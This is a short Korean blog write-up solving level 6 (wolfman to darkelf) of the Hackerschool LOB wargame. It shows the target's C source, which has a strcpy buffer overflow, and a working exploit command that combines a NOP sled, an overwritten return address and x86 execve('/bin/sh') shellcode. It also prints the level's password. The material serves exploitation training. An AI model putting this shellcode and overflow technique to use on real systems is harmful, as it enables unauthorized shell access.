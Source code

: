 ```yaml
---
date: '2022-10-16'
before : '2022-10-15'
after : '2022-10-17'
title: 'FTZ LOB LEVEL 6'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 전 문제들과 크게 다르지 않았다.

### 1. Level 6 : Wolfman -> Darkelf

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[]){
        char buffer[40];
        int i;
        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')

        {
                printf("stack is still your friend.\n");

                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){

                printf("argument is too long!\n");

                exit(0);
        }
        strcpy(buffer, argv[1]);

        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
입력의 길이가 48을 넘으면 안된다! 하지만 gdb로 까보니 어차피 버퍼의 생성이 -44에서 끝나고 더미 데이터가 없기 때문에 의미가 없다.


저번 문제와 동일하게 NOP SLED로 풀이한다.
```
`python -c 'print "\x90"*44+"\x40\xfc\xff\xbf"'` `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : kernel crashed

 ---
## Source

- 해커스쿨 FTZ
- Me!
